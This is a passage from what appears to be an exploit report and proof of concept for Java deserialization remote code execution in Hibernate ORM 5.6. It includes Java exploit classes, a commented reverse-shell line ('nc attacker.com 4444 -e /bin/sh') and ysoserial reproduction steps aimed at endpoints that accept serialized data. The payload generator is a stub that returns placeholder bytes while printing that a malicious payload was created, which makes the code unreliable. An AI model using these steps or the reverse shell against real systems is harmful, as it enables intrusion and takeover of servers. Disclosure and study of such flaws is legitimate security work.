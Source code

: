 ```java
        oos.writeObject(new ExploitObject());
        oos.close();

        System.out.println("✅ Malicious payload created: " + payload.length + " bytes");
        System.out.println("💥 Payload would execute: calc.exe / /bin/sh");

        // This would trigger RCE when deserialized by vulnerable Hibernate code
        // SessionImpl.readObject() -> ois.readObject() -> RCE
    }

    private static byte[] createMaliciousPayload() {
        // Commons Collections gadget chain for RCE
        String[] command = {"calc.exe"}; // Windows
        // String[] command = {"/bin/bash", "-c", "nc attacker.com 4444 -e /bin/sh"}; // Linux reverse shell

        return generateCommonsCollectionsPayload(command);
    }

    private static byte[] generateCommonsCollectionsPayload(String[] command) {
        // Simplified payload generation
        // Real exploit would use ysoserial or custom gadget chains
        return "MALICIOUS_SERIALIZED_DATA".getBytes();
    }

    static class ExploitObject implements Serializable {
        private void readObject(ObjectInputStream ois) throws Exception {
            System.out.println("💀 RCE TRIGGERED - Command executed!");
            // Runtime.getRuntime().exec("calc"); // Actual payload execution
        }
    }
}
```

### **Reproduction Steps**
1. **Environment Setup**
   ```bash
   # Download Hibernate ORM 5.6
   git clone -b 5.6 https://github.com/hibernate/hibernate-orm.git
   cd hibernate-orm
   ```

2. **Identify Vulnerable Endpoint**
   - Look for applications using Hibernate session serialization
   - Target HTTP endpoints that accept serialized data
   - Focus on session persistence mechanisms

3. **Craft Exploit**
   ```bash
   # Generate payload using ysoserial
   java -jar ysoserial.jar CommonsCollections6 'calc' > payload.ser
   ```
